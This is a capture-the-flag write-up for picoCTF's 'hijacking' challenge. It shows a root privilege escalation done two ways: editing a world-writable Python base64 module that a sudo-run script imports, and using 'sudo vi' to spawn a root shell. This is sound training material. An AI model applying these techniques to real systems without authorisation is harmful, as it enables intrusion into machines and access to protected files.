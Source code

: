 # hijacking

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [Alternative solution](#alternative-solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: picoCTF 2023, Binary Exploitation, privilege_escalation
Author: THEONESTE BYAGUTANGAZA

Description:
Getting root access can allow you to read the flag. 
Luckily there is a python file that you might like to play with.

Through Social engineering, we've got the credentials to use on the server. 
SSH is running on the server.
saturn.picoctf.net 52735
Username: picoctf
Password: urTi-qvQtA
 
Hints:
1. Check for Hidden files
2. No place like Home:)
```

Challenge link: [https://play.picoctf.org/practice/challenge/352](https://play.picoctf.org/practice/challenge/352)

## Solution

### Connect to the server

We start by connecting to the server

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/hijacking]
└─$ ssh -p 52735 picoctf@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:52735 ([13.59.203.175]:52735)' can't be established.
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:52735' (ED25519) to the list of known hosts.
picoctf@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoctf@challenge:~$ 
```

And then we look for the python file mentioned in the challenge description

```bash
picoctf@challenge:~$ ls -la
total 16
drwxr-xr-x 1 picoctf picoctf   20 Nov  4 15:38 .
drwxr-xr-x 1 root    root      21 Aug  4 21:10 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Nov  4 15:38 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16  2023 .server.py
```

The python script is owned by root and we are not allowed to modify it.

Let's check what it contains

```python
picoctf@challenge:~$ cat .server.py 
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 
```

### Check for sudo privileges

Next, let's check what we can run with [sudo](https://en.wikipedia.org/wiki/Sudo)

```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

As expected we can run the server file with python but we can also run vi.

### Hijack a python module - part 1

We will try to hijack one of the python modules used in the server file, that is `base64`, `os` or `socket`.

First we find the path that python uses

```bash
picoctf@challenge:~$ python3
Python 3.8.10 (default, May 26 2023, 14:05:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
>>> exit()
```

Next, we check the file permissions for the module files in the `/usr/lib/python3.8` directory

```bash
picoctf@challenge:/usr/lib/python3.8$ ls -la base64.py os.py socket.py 
-rwxrwxrwx 1 root root 20382 May 26 14:05 base64.py
-rw-r--r-- 1 root root 38995 May 26 14:05 os.py
-rw-r--r-- 1 root root 35243 May 26 14:05 socket.py
```

Ah perfect, we can modify the `base64.py` file.  
But we still don't know the name of the flag file.

### Find out the flag file name

We can use `vi` to read the `/root` directory just like any file

```bash
picoctf@challenge:/usr/lib/python3.8$ sudo vi /root/
[sudo] password for picoctf: 
```

The result is

```text
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /root
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$,\.bak$,\~$
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                                                                                                                             
./
.vim/
.bashrc
.flag.txt
.profile
```

So now we know that the flag file is `/root/.flag.txt`.

### Hijack a python module - part 2

We add the following line to the `base64.py` file after the [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix))

```python
print(open('/root/.flag.txt', 'r').read())
```

### Get the flag

And finally we run the server with sudo to get the flag

```bash
picoctf@challenge:/usr/lib/python3.8$ sudo python3 ~/.server.py 
picoCTF{<REDACTED>}

sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

## Alternative solution

A more direct approach would be to use [vi to launch a shell](https://gtfobins.github.io/gtfobins/vi/) directly

```bash
picoctf@challenge:~$ sudo vi -c ':!/bin/sh'
[sudo] password for picoctf: 

# cd /root
# ls -la
total 12
drwx------ 1 root root   23 Aug  4 21:12 .
drwxr-xr-x 1 root root   51 Nov  4 16:06 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Aug  4 21:12 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt 
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [python - Linux manual page](https://linux.die.net/man/1/python)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [Shebang (Unix) - Wikipedia](https://en.wikipedia.org/wiki/Shebang_(Unix))
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [vi - GTFObins](https://gtfobins.github.io/gtfobins/vi/)

